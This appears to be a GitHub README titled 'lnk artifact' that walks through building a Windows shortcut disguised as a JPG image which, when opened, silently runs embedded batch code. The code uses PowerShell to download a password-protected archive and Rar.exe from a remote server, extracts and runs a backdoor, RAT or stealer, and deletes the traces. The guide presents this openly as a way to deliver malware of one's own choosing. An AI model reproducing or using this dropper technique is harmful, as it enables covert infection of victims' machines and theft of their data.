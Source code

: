 <h1 align="center">lnk artifact</h1>

<p align="center">
	<i>Toxic shortcuts in Windows: an old artifact, not forgotten by hackers, but partially forgotten by forensics..</i>
</p>

-------
I welcome all friends, this is by no means an advertisement of a third-party resource, but you can find more detailed information on [Habr](https://habr.com/ru/company/group-ib/blog/493906/).

In this topic, I will show only how to use it for my own purposes.
All we need is the winrar archiver, or rather Rar.exe and our malicious RMS or RAT or BOTNET or STEALER file, etc. etc. Next, we pack our malicious file called install.exe into an archive with a password, password: 123321, the name of the archive at the output is install.rar, upload the Rar.exe and install.rar files to our server and give both files permission 777 to read, write and execution.

We have already dealt with the introductory part, let's proceed to the assembly.

We will mask it under the picture, therefore we create a shortcut on the desktop and indicate the code in the location:

---
~~~bat
%COMSPEC% /c "copy /Y image.lnk %temp%\1&findstr /c:"@ECHO" %temp%\1>%temp%\s.bat&start /MIN %TEMP%\s.bat&exit"
~~~
---
<p align="center">
	<img src="https://i.postimg.cc/W1HMyrnr/1.png" />
</p>

Next, we set the name of what is in the location: image

<p align="center">
	<img src="https://i.postimg.cc/2Sh0n0my/2.png" />
</p>

Next, go to the properties of the lnk file and remove the working folder

<p align="center">
	<img src="https://i.postimg.cc/Kv62ZpJ8/3.png" />
</p>

And optionally we put any icon, but since we want to disguise it as a picture, we select the jpg icon.

<p align="center">
	<img src="https://i.postimg.cc/4dY1WPtr/4.png" />
</p>

Open image.lnk in any text editor Notepad++ in my case, version 7.8.6 (Open np++ and transfer our lnk file to the main window) and add our code to download and launch the backdoor from the server to the next line:

---
~~~bat
@ECHO OFF && IF EXIST "%temp%\lnkexp.txt" (exit) ELSE echo lnkexp»%temp%\lnkexp.txt && powershell -Command (new-object System.Net.WebClient).DownloadFile('http://site.ru/install.rar', '%temp%/install.rar') && powershell -Command (new-object System.Net.WebClient).DownloadFile('http://site.ru/Rar.exe', '%temp%/Rar.exe') && %temp%\Rar.exe x -t -o+ -p123321 %temp%\install.rar %temp%\ && %temp%\install.exe && del /f /q %temp%\install.rar && del /f /q %temp%\Rar.exe && exit
~~~
---
<p align="center">
	<img src="https://i.postimg.cc/26znJfJb/5.png" />
</p>


That's all, our lnk is ready, and everything that I think further is intuitive.
Link to youtube: [www.youtube.com](https://youtu.be/LOv5SX6uaHM)
